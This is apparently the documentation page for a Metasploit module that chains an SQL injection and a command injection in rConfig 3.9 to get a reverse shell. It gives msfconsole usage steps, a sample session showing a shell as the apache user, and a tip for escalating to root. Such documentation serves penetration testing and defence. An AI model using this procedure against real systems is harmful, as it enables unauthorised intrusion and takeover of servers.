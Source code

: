 ## Vulnerable Application
This module exploits multiple vulnerabilities in rConfig version 3.9 and prior in order to execute arbitrary commands.

The module first add a temporary admin user to the application by exploiting an SQL injection (CVE-2020-10220).

Next, the module authenticates as the newly created user in order to abuse a command injection vulnerability in the `path` parameter of the ajaxArchiveFiles functionality within the rConfig web interface (CVE-2019-19509).

The module works with HTTP or HTTPS (both were tested) but the application does redirection via php code so SSL is enabled by default (and should be used). Valid credentials for a user with administrative privileges are required. However, this module can bypass authentication via SQLI. This module has been successfully tested on rConfig 3.9.2 and 3.9.4.

Tips : once you get a shell, look at the CVE-2019-19585. You will probably get root because rConfig install script add Apache user to sudoers with nopasswd ;-)

## Verification Steps
1. Install the module as usual
2. Start msfconsole
3. `use exploit/linux/http/rconfig_ajaxarchivefiles_rce`
4. `set RHOSTS target_ip`
5. `set RPORT target_port`
6. `set LHOST your_ip`
7. `set LPORT your_port`
8. `set verbose true`
9. `exploit -j`

## Scenarios
```
msf5 exploit(linux/http/rconfig_ajaxarchivefiles_rce) > show options

Module options (exploit/linux/http/rconfig_ajaxarchivefiles_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to Rconfig
   VHOST                       no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto

msf5 exploit(linux/http/rconfig_ajaxarchivefiles_rce) > set RHOSTS 1.1.1.1
RHOSTS => 1.1.1.1
msf5 exploit(linux/http/rconfig_ajaxarchivefiles_rce) > set LHOST 1.1.1.2
LHOST => 1.1.1.2

msf5 exploit(linux/http/rconfig_ajaxarchivefiles_rce) > 
[+] rConfig version 3.9 detected
[+] New temporary user 6QpO8mLt created
[+] Authenticated as user 6QpO8mLt
[*] Command shell session 1 opened (1.1.1.2:4444 -> 1.1.1.1:34586) at 2020-03-10 22:26:46 +0100
[+] Command sucessfully executed
[*] User 6QpO8mLt removed successfully !

msf5 exploit(linux/http/rconfig_ajaxarchivefiles_rce) > sessions -i 1
[*] Starting interaction with 1...
id
uid=48(apache) gid=48(apache) groups=48(apache)
```
## References
1. <https://cvedetails.com/cve/CVE-2019-19509/>
2. <https://cvedetails.com/cve/CVE-2020-10220/>
3. <https://www.exploit-db.com/exploits/47982>
4. <https://www.exploit-db.com/exploits/48208>
5. <https://github.com/v1k1ngfr/exploits-rconfig/blob/master/rconfig_CVE-2019-19509.py>
6. <https://github.com/v1k1ngfr/exploits-rconfig/blob/master/rconfig_CVE-2020-10220.py>

